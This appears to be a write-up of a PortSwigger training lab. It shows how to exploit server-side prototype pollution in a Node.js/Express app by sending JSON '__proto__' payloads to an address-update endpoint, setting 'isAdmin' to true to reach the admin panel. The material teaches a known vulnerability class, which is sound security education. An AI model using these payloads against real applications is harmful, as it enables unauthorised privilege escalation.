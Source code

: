 # Privilege escalation via server-side prototype pollution

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/prototype-pollution/server-side/lab-privilege-escalation-via-server-side-prototype-pollution), you'll learn: Privilege escalation via server-side prototype pollution! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab is built on Node.js and the Express framework. It is vulnerable to server-side [prototype pollution](https://portswigger.net/web-security/prototype-pollution) because it unsafely merges user-controllable input into a server-side JavaScript object. This is simple to detect because any polluted properties inherited via the prototype chain are visible in an HTTP response.

To solve the lab:

1. Find a prototype pollution source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget property that you can use to escalate your privileges.
3.  the admin panel and delete the user `carlos`.

You can log in to your own account with the following credentials: `wiener:peter`

> Note:
>  
> When testing for server-side prototype pollution, it's possible to break application functionality or even bring down the server completely. If this happens to your lab, you can manually restart the server using the button provided in the lab banner. Remember that you're unlikely to have this option when testing real websites, so you should always use caution.

## Exploitation

### 1. Find a prototype pollution source that you can use to add arbitrary properties to the global `Object.prototype`

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-6/images/Pasted%20image%2020230222142632.png)

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-6/images/Pasted%20image%2020230222142703.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-6/images/Pasted%20image%2020230222142718.png)

In the "My account" page, we can update our billing and delivery address.

**Let's click on the "Submit" button and capture the request in Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-6/images/Pasted%20image%2020230222142844.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-6/images/Pasted%20image%2020230222142849.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-6/images/Pasted%20image%2020230222142904.png)

When we clicked the "Submit" button, it'll send a POST request to `/my-account/change-address`, with parameter `address_line_1`, `address_line_2`, `city`, `postcode`, `country`, `sessionId` in JSON format.

**If the action has no error, it'll response a JSON data:**
```json
{
    "username":"wiener",
    "firstname":"Peter",
    "lastname":"Wiener",
    "address_line_1":"Wiener HQ",
    "address_line_2":"One Wiener Way",
    "city":"Wienerville",
    "postcode":"BU1 1RP",
    "country":"UK",
    "isAdmin":false
}
```

What's interesting for us is the `isAdmin` key.

***Now, what if the `isAdmin`'s value is set to `true`?***

In server-side prototype pollution, we can detect the polluted property via reflection (response).

An easy trap for developers to fall into is forgetting or overlooking the fact that a JavaScript `for...in` loop iterates over all of an object's enumerable properties, including ones that it has inherited via the prototype chain.

You can test this out for yourself as follows:

```js
const myObject = { a: 1, b: 2 }; 

// pollute the prototype with an arbitrary property
Object.prototype.foo = 'bar';

// confirm myObject doesn't have its own foo property
myObject.hasOwnProperty('foo'); // false

// list names of properties of myObject
for(const propertyKey in myObject){
    console.log(propertyKey);
}

// Output: a, b, foo
```

This also applies to arrays, where a `for...in` loop first iterates over each index, which is essentially just a numeric property key under the hood, before moving on to any inherited properties as well.

```js
const myArray = ['a','b'];
Object.prototype.foo = 'bar';

for(const arrayKey in myArray){
    console.log(arrayKey);
} 

// Output: 0, 1, foo
```

In either case, if the application later includes the returned properties in a response, this can provide a simple way to probe for server-side prototype pollution.

`POST` or `PUT` requests that submit JSON data to an application or API are prime candidates for this kind of behavior as it's common for servers to respond with a JSON representation of the new or updated object. In this case, you could attempt to pollute the global `Object.prototype` with an arbitrary property.

**Armed with above information, we can try to pollute the global `Object.prototype` in `/my-account/change-address`:**
```json
{
    "address_line_1":"Wiener HQ",
    "address_line_2":"One Wiener Way",
    "city":"Wienerville",
    "postcode":"BU1 1RP",
    "country":"UK",
    "sessionId":"FrxyDjNVyE7jx17mQ7LQBmPAkFXFcXEC",
    "__proto__": {
        "foo": "bar"
    }
}
```

**If the website is vulnerable, our injected property would then appear in the updated object in the response:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-6/images/Pasted%20image%2020230222144142.png)

### 2. Identify a gadget property that you can use to escalate your privileges

Now, if we change the `isAdmin` key's value to `true`, will us be able to access to the admin panel??

### 3. Access the admin panel and delete the user `carlos`

***To do so, we can our inject `isAdmin` property in `/my-account/change-address`:***
```json
{
    "address_line_1":"Wiener HQ",
    "address_line_2":"One Wiener Way",
    "city":"Wienerville",
    "postcode":"BU1 1RP",
    "country":"UK",
    "sessionId":"FrxyDjNVyE7jx17mQ7LQBmPAkFXFcXEC",
    "__proto__": {
        "isAdmin": true
    }
}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-6/images/Pasted%20image%2020230222144419.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-6/images/Pasted%20image%2020230222144442.png)

Nice! We now can access to the admin panel!

**Let's delete user `carlos`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-6/images/Pasted%20image%2020230222144509.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-6/images/Pasted%20image%2020230222144524.png)

# What we've learned:

1. Privilege escalation via server-side prototype pollution